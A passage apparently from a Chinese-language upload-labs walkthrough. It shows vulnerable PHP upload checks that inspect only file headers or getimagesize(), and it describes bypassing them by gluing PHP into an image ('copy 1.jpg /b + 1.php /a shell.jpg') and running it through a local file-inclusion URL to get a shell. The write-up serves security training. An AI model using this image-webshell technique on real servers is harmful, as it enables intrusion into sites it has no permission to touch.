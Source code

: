 ```php
            break;
        case 7173:
            $fileType = 'gif';
            break;
        default:
            $fileType = 'unknown';
        }
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知,上传失败!";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错!";
        }
    }
}
?>
```

从这一关开始要求上传图片马,但是没有办法直接执行图片马,需要另外的方法去实现一般是加上 php 伪协议去 getshell,常见的有 phar,zip 等等

这里可以发现源代码只是用了 unpack 这一个函数去实现对于 php 前两个字节的检测,也就是只是对文件头做检测...

`payload: 制作图片马 copy 1.jpg /b + 1.php /a shell.jpg`

`http://192.168.37.150/include.php?file=upload/3020190807143926.png`

## Pass-15-getimagesize()

```php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}
```
